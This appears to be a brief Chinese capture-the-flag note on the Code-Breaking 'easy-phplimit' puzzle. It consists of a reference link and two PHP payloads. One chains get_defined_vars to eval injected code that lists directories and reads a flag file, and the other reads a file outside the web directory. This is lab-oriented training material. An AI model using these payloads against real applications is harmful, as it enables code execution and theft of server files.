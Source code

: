 # code-breaking_easy-phplimit函数的巧妙搭配

#### 参考文章

- https://www.kingkk.com/2018/11/Code-Breaking-Puzzles-%E9%A2%98%E8%A7%A3-%E5%AD%A6%E4%B9%A0%E7%AF%87/#get-defined-vars

#### payload

```php
eval(next(current(get_defined_vars())));&b=print_r(scandir('../'));print_r(file_get_contents('../flag_phpbyp4ss'));
readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
```